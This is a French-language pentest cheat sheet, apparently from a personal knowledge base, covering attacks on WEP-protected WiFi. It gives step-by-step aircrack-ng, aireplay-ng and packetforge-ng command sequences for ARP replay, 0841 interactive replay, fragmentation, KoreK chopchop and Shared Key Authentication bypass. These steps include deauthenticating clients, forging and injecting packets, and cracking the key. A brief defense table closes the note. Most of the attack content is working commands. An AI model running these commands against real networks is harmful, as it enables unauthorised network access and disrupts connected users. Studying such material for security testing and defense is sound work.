

# 🔓 Attaques WiFi — WEP

> [!info] **En 1 phrase**
> Le WEP est **cassé structurellement** : les IVs faibles (24 bits, réutilisés) permettent de retrouver la clé
> RC4 en **quelques minutes** — soit **avec un client** (ARP replay), soit **sans client** (fragmentation, chopchop),
> y compris en **bypassant l'authentification par clé partagée (SKA)**.

---

## 🎯 Concept



> [!info] 💡 **Pourquoi WEP est mort**
> - IV 24 bits → **même clé réutilisée** sur de nombreux paquets → attaques statistiques.
> - Pas de protection contre le **rejeu** ni l'**injection**.
> - Fausse intégrité : CRC32 linéaire (pas de MAC réel).

---

## 🧰 Avec un client : ARP Replay

> Attaque le **point d'accès**. Le AP ré-émet chaque paquet ARP avec un nouvel IV → on collecte des IVs.

```bash
airmon-ng start wlan0 3                      # canal 3
airodump-ng mon0 -c 3 --bssid $AP_MAC -w arpreplay   # dump

# Fake auth pour fiabiliser l'attaque
aireplay-ng -1 0 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0

# ARP replay (le cœur de l'attaque)
aireplay-ng -3 -b $AP_MAC -h $ATTACKER_MAC mon0

# Déauth pour générer du trafic ARP
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0

# Crack (PTW) — ~250 000 IVs suffisent
aircrack-ng arpreplay.cap
```

---

## 🎯 Avec un client : Interactive Replay (0841)

> Quand l'ARP replay n'est pas disponible : on force un **client** à générer des paquets injectables.
> Attaque « 0841 » = injection de paquets quand ARP replay échoue.

```bash
airmon-ng start wlan0 3
airodump-ng -c 3 --bssid $AP_MAC -w clearcap mon0

# fake auth
aireplay-ng -1 0 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0

# Interactive replay : sélection naturelle d'un paquet (taille ARP 68-86)
aireplay-ng -2 -b $AP_MAC -d FF:FF:FF:FF:FF -f 1 -m 68 -n 86 mon0
# → répondre "y" plusieurs fois

# OU forcer la création d'un paquet 0841
aireplay-ng -2 -b $AP_MAC -t 1 -c FF:FF:FF:FF:FF:FF -p 0841 mon0
# Sélection : paquets vers broadcast, bit ToDS = 1

# Crack — ~250 000 IVs requis
aircrack-ng -0 -z -n 64 clientwep-01.cap
#   -z : attaque PTW, -n : taille de clé (64/128)

# Backup : réinjecter un paquet capturé
aireplay-ng -2 -r replay.cap mon0
```

---

## 📡 Sans client : Fragmentation

> **Prérequis** : AP en **open system authentication** (pas de SKA).
> Obtient un **PRGA** (xor keystream) → forge des paquets ARP → collecte d'IVs.

> [!tip] 💡 **Cartes Atheros** : usurper l'adresse MAC pour générer des paquets corrects.

```bash
airmon-ng start wlan0 3
airodump-ng -c 3 --bssid $AP_MAC -w wepcrack mon0    # vérifier aucun client

# Fake auth avec reassociation périodique (toutes les 60 s)
aireplay-ng -1 60 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0
#  -1 6000 pour éviter le timeout

# Fragmentation → récupérer frag.xor (PRGA) — répondre "Y"
aireplay-ng -5 -b $AP_MAC -h $ATTACKER_MAC mon0

# Forger une requête ARP avec le PRGA
# -l : IP source (existe), -k : IP destination (broadcast, n'existe pas)
packetforge-ng -0 -a $AP_MAC -h $ATTACKER_MAC -l $SRC_ADDR -k $DST_ADDR -y frag.xor -w inject.cap

# Vérifier le paquet forgé
tcpdump -n -vvv -e -s0 -r inject.cap

# Injecter
aireplay-ng -2 -r inject.cap mon0

# Crack (auto-mise à jour des IVs)
aircrack-ng -0 wepcrack
# 64-bit : < 5 min ; passer à 128-bit après 600 000 IVs ; -f 4 après 2 000 000
```

---

## 🪓 Sans client : KoreK Chopchop

> **Quand la fragmentation échoue.** Plus lent. Déchiffre un paquet octet par octet pour obtenir le PRGA.

```bash
airmon-ng start wlan0 3
airodump-ng -c 3 --bssid $AP_MAC -w wepcrack mon0

# fake auth (open system requis)
aireplay-ng -1 60 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0

# Chopchop → .cap (paquet déchiffré) + .xor (PRGA) — répondre "Y" (petit paquet)
aireplay-ng -4 -b $AP_MAC -h $ATTACKER_MAC mon0

# Vérifier le paquet et trouver les adresses
tcpdump -n -vvv -e -s0 -r inject.cap

# Forger un ARP avec le PRGA
packetforge-ng -0 -a $AP_MAC -h $ATTACKER_MAC -l $SRC_ADDR -k $DST_ADDR -y prga.xor -w chochop_out.cap

# Injecter + crack
aireplay-ng -2 -r chochop_out.cap mon0
aircrack-ng -0 wepcrack
```

---

## 🔑 Bypass Shared Key Authentication (SKA)

> **Prérequis** : AP en **Shared Key** (le fake auth en open system est rejeté : « AP rejects open-system authentication »).

```bash
airmon-ng start wlan0 3
airodump-ng -c 3 --bssid $AP_MAC -w sharedkey mon0

# 1. Déauth d'un client connecté → airodump affiche SKA sous AUTH
#    le fichier PRGA est sauvegardé en xxxx.xor (au moins 144 octets)
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0
#    alternative : aireplay-ng -0 10 ...

# 2. Fake auth en utilisant le PRGA (switching to Shared Key Auth)
aireplay-ng -1 60 -e $AP_SSID -y sharedkey.xor -b $AP_MAC -h $ATTACKER_MAC mon0
#    "Part2: Association Not answering" → spoof la MAC utilisée pour la fake auth

# 3. ARP replay (comme avant)
aireplay-ng -3 -b $AP_MAC -h $ATTACKER_MAC mon0

# 4. Déauth pour accélérer la collecte
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0

# 5. Crack
aircrack-ng sharedkey.cap
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Migrer vers WPA2/WPA3** | Le WEP est obsolète depuis 2004 — aucun correctif ne le sauve |
| **WIDS** | Détecte les taux d'IV anormaux et les injections répétées |
| **EAP / 802.1X** | Authentification par utilisateur au lieu d'une clé partagée unique |
| **Limiter la couverture** | Réduit la surface d'écoute et d'injection |

## ⚠️ Tips & Pièges

- **Fake auth AVANT l'attaque** est quasi obligatoire pour que le AP accepte nos paquets.
- Cartes **Atheros** : spoof MAC requis pour la fragmentation.
- **Chopchop** ne marche pas sur tous les AP — il sert de secours à la fragmentation.
- Le chiffrement est **RC4 + IV** : si on a le keystream (PRGA), on peut **chiffrer n'importe quel paquet court**.

> [!info] 📚 **Sources**
> GitHub : [swisskyrepo/HardwareAllTheThings – `docs/protocols/wifi/wifi-wep.md`](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/protocols/wifi/wifi-wep.md) · [Aireplay 0841 – doyler.net](https://www.doyler.net/security-not-included/aireplay-0841-attack)

➡️ **Liens :** [[Attaques WiFi (WPA2 et PMKID)|📶 Hub WiFi]] · [[Attaques WiFi - Préparation & Basiques|🧰 Préparation]] · [[Attaques WiFi - WPA2 PSK|🔐 WPA2-PSK]] · [[Bibliothèque technique|🏠 Index]]
